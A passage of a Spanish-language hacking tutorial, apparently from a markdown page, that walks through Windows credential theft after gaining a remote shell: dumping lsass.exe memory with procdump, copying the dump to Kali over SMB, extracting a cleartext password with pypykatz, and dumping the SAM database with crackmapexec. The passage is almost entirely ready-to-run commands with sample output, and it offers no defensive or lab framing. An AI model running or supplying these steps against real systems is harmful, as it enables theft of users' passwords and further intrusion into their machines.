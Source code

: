 Una vez tengas acceso a shell remoto tipo CMD, ejecutas:

```cmd
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

Luego descargas `lsass.dmp` a Kali:

```bash
smbclient //192.168.1.100/C$ -U gustavo
get lsass.dmp
```

---

#### 🧩 Paso 3: Analiza con `pypykatz` (versión mimikatz en Linux)

Instala `pypykatz`:

```bash
pip install pypykatz
```

Ejecuta:

```bash
pypykatz lsa minidump lsass.dmp
```

📌 Verás salida como esta:

```
Username : gustavo
Domain   : PC-GUSTAVO
Password : Guss2024!
```

---

### ✅ Parte 3: Alternativa con `crackmapexec` (CME)

CrackMapExec permite automatizar:

- Enumeración
- Dump de SAM
- Dump de LSASS
- RCE

Instalación:

```bash
sudo apt install crackmapexec
```

Ejemplo: Dump de SAM:

```bash
crackmapexec smb 192.168.1.100 -u gustavo -p MiContraseña123 --sam
```
